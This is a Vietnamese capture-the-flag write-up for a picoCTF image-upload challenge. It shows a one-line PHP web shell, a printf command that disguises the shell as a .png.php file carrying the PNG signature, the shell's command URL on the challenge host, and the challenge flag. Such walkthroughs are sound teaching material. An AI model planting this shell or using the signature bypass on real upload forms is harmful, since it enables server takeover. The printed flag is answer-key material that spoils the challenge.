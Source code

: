 ![image](https://github.com/user-attachments/assets/7271d8a4-2a6f-4937-ae93-4e9b9d9c8880)

I found a web app that can help process images: PNG images only!

# TLDR
Web này check file được đưa vào, chỉ cần có `.png` và có file signature của png thì được chấp nhận

Tạo một file PHP để tạo 1 shell và thực hiện trên web, cho file đó signature của PNG với đuôi là `.png.php` sau đó tìm file `.txt` trên server 

Tên file flag được decode = base32

Dùng `%20` thay cho dấu cách trong url để có thể dùng lệnh `curl`

# Upload thử các loại file 
Nếu upload 1 file PNG bình thường sẽ báo thành công

![image](https://github.com/user-attachments/assets/a96fc19c-af2d-4a2d-a090-d2c7d971421c)

Tất nhiên là đợi bao lâu sẽ không được gì từ đó ta có hướng giải là tạo một file PHP tạo 1 shell sau đó sẽ dùng nó để đọc file flag

Để tạo một shell = PHP trên web ta dùng `<?php system($_GET['cmd']); ?>`

Thử upload một file và chỉ thêm đuôi png

![image](https://github.com/user-attachments/assets/13db7e7d-a854-448b-a209-6b88fbaf3cf8)

Web báo lỗi đây không phải file PNG hợp lệ dù cho ta đã dùng đuôi `.png` và sau đó có mã: `3c3f7068`

Nếu xem hexdump của normalPHP.png ta biết rằng đây là "magic number" của file này. Vậy là server kiểm tra xem 1 file có đuôi `.png` không và có file signature của `.png` không

![image](https://github.com/user-attachments/assets/9205b6c0-df8e-40cc-91e6-ef445926953f)

# Đưa code PHP vào file PNG
Để biến một file bình thường thành PNG ta có thể dùng `printf "\x89\x50\x4E\x47\x0D\x0A\x1A\x0A" > betterPHP.png.php` để tạo một file mới mang signature của PNG
![image](https://github.com/user-attachments/assets/de862741-e002-4568-8c14-a3fbadd41bd2)

Sau đó đưa dữ liệu từ normalPHP.png vào, dùng `>>` để thêm dữ liệu vào file, nếu chỉ dùng `>` sẽ ghi đè lên dữ liệu cũ và làm mất file signature của PNG

![image](https://github.com/user-attachments/assets/39db3730-d172-4f02-8882-6f1cee45d62d)

# Upload file "betterPHP.png.php" đã được nguỵ trang
![image](https://github.com/user-attachments/assets/5f623c61-5cde-484a-a9d8-c1f464982f25)

Thành công, giờ ta có thể truy cập và thực hiện lệnh bằng link `http://atlas.picoctf.net:58019/uploads/betterPHP.png.php?cmd=NHẬP LỆNH VÀO`

![image](https://github.com/user-attachments/assets/3ac19f78-d11a-4330-bd9f-98947a698d60)

User tên là www-data 

# Tìm flag
Để tìm flag ta dùng câu lệnh find mọi file `.txt` trong web

![image](https://github.com/user-attachments/assets/50de2b56-d7fa-40e2-be32-4cb13d9f3256)

Tên file toàn chữ hoa `MFRDAZLDMUYDG.txt` kia đã được mã hoá = base32, nếu decode sẽ cho ra `flag.txt `

Chỉ cần đọc file sẽ thấy flag

![image](https://github.com/user-attachments/assets/c24a45b3-50c2-47e5-a599-a0f04a0ce97a)

# FLAG: picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_ab0ece03}

